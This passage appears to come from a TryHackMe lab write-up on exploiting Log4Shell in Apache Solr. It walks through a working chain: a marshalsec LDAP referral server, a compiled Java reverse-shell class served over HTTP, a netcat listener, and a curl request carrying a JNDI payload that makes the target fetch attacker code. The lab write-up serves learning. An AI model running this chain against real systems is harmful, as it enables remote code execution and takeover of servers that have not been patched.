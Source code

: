To host a quick http server, python can be used:

```shell
python -m http.server
```

Then we need an LDAP Refferal Server. I followed the THM room's instructions on installing [marshalsec]([https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)) 

After building marshalsec, we can run it with:

```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://10.9.0.233:8000/#Exploit"
```

Adjust the IP address for your attacking machine as needed. Note that we will supplied the HTTP port listening on 8000.

> What is the output of running this command? (You should leave this terminal window open as it will be actively awaiting connections)

Answer:

> Listening on 0.0.0.0:1389

Our http server will need to serve a Java class in order for us to achieve RCE. A simple java reverse shell is given by the room. We compile it(`javac Exploit.java -source 8 -target 8`) and we have our exploit, it should have a .class extension

We can now start our simple python http server(this has a default port of 8000, which we also configured when starting the LDAP Referral Server):

```
python -m http.server 
```

Next, we need a netcat listener to catch the reverse shell.

```shell
nc -nlvp 9999
```

Now, we can send a malicious request to trigger the exploit

```shell
curl 'http://10.10.152.218:8983/solr/admin/cores?payload=$\{jndi:ldap://10.9.0.233:1389/Exploit\}'
```

And we have our shell!

![](./images/solr3.png)
